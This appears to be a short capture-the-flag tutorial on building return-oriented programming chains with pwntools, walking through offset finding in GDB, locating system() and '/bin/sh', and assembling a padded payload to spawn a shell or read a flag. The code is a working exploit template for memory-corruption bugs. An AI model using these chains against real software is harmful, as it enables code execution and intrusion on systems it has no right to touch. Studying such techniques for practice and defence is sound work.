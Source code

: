 # Building ROPChains With PWNTools

1. Setup the Python script

```python3
from pwn import *   # import pwntools

context.log_level = "debug"   # Debugging information
context.binary = elf = ELF("./vuln")    # Set architecture info
io = process()    # Create a process with the loaded elf
rop = ROP(elf)    # Create the ROP object
```

2. Use GDB (pwndbg) to find the vulnerable buffer/offset to control the EIP/RIP

`cyclic`

3. Find useful functions by disassembling the binary (e.g. system(), usefulFunction(), print_flag(), you get the idea)

```bash
# in GDB
b main
run
search system
search exec
# OR
i functions
disassemble main    # disassemble other functions to find any interesting function calls
```

4. Find addresses of any strings in the binary that are required for the function call

```bash
# In GDB
b main
run
search /bin   # search for strings that contain "/bin" - adjust as needed
```

4.5. Automate searching for strings

```python3
context.binary = elf = ELF('/bin/sh')
libc = elf.libc

elf.address = 0xAA000000
libc.address = 0xBB000000

rop = ROP([elf, libc])

binsh = next(libc.search(b"/bin/sh\x00"))
rop.execve(binsh, 0, 0)
```

5. Use ROP in pwntools to create a ropchain which can be placed into your payload

The chain that is printed can be pulled apart and manipulated, e.g. if alternate addresses need to be used  
You can also build your payload manually, using the output of rop.dump() to guide you (I have had more success with this method than with rop.chain())

```python3
# Using system("/bin/cat flag.txt) as an example
# address of "/bin/cat flag.txt" in the binary: 0x0804a030
rop.system(0x0804a030)
# print(rop.dump())   # prints the 'pretty' view of values with the corresponding instruction
# print(rop.chain())    # prints the chain which can be appended to your payload
```

6. Build your payload

```python3
payload = b""
payload += b"A" * offset
payload += rop.chain()
```

7. Send your payload and get your flag/shell!
